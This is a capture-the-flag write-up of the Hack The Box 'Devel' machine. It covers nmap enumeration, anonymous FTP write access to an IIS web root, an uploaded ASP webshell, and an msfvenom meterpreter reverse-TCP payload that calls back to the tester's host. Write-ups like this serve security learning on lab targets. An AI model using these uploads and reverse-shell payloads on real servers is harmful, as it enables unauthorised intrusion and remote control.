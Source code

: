 ```yaml
---
image: /assets/img/devel/devel.png
layout: post
title: Devel
date: 2020-10-1 00:00:01 +5:30
categories: [Hackthebox, Easy]
tags: [ftp, iis, windows] # add tag
---
```


## Summary

> There are 2 ports open 21 and 80 <br />
> We have write permission in FTP and it is common to web directory<br />
> Generated an asp reverse shell and get meterpreter<br />
> Using local_exploit_suggester check for local exploits <br />
> Exploit and get priv shell.

## Walkthrough

### Enumeration

```terminal
root@parrot  ~/Desktop/hackthebox/devel  nmap -sC -sV 10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 12:43 IST
Nmap scan report for 10.10.10.5
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:  
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:  
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.44 seconds
```

We can see Anonymous FTP login

```terminal
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
 ```

Checking web servers

 ![port80](/assets/img/devel/port80.png)

On looking into directory, it turns out be same as ftp.

So we have write privs in ftp and the machine is running windows iis so we can upload .asp reverse shell.

### Exploitation

```terminal
root@parrot  ~/Desktop/hackthebox/devel  cp /usr/share/webshells/asp/cmdasp.asp .
root@parrot  ~/Desktop/hackthebox/devel  ftp 10.10.10.5                           
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:argenestel): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmdasp.asp
local: cmdasp.asp remote: cmdasp.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1581 bytes sent in 0.00 secs (12.4608 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
10-07-20  06:29PM                 1241 cmd.asp
10-07-20  06:31PM                 1581 cmdasp.asp
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```
Alright so we can really edit in ftp. I tested by uploading a webshell.

![aspx](/assets/img/devel/cmdasp.png)

Now it's time to get meterpreter shell.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx> exploit.aspx      

uploaded this in ftp.

![msf](/assets/img/devel/msf.png)

### PostExploitation

Now we have meterpreter let's see local_exploit_suggester.

I landed on many exploits tried a few and one worked for me.

![privshell](/assets/img/devel/privshell.png)

Rooted :)
